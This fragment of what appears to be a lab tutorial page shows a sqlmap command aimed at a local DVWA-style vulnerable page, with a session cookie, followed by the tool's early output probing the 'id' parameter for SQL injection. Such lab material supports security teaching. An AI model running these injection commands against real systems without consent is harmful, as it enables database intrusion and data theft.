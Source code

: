 <figure><img src="../../../.gitbook/assets/sqlmap_basic_usage.png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```bash
$ sqlmap -u "http://127.0.0.1/vulnerabilities/sqli/?id=test&Submit=Submit" --cookie "PHPSESSID=23k5fk90ga91i036avi44m2mr2; security=low" --batch
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.8.5#stable}
|_ -| . [']     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 12:50:58 /2024-06-05/

[12:50:59] [INFO] testing connection to the target URL
[12:50:59] [INFO] checking if the target is protected by some kind of WAF/IPS
[12:50:59] [INFO] testing if the target URL content is stable
[12:50:59] [INFO] target URL content is stable
[12:50:59] [INFO] testing if GET parameter 'id' is dynamic
[12:50:59] [WARNING] GET parameter 'id' does not appear to be dynamic
[12:50:59] [INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable (possible DBMS: 'MySQL')
[12:50:59] [INFO] heuristic (XSS) test shows that GET parameter 'id' might be vulnerable to cross-site scripting (XSS) attacks
[12:50:59] [INFO] testing for SQL injection on GET parameter 'id'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[12:50:59] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[12:50:59] [WARNING] reflective value(s) found and filtering out
[12:50:59] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[12:50:59] [INFO] testing 'Generic inline queries'
[12:50:59] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
```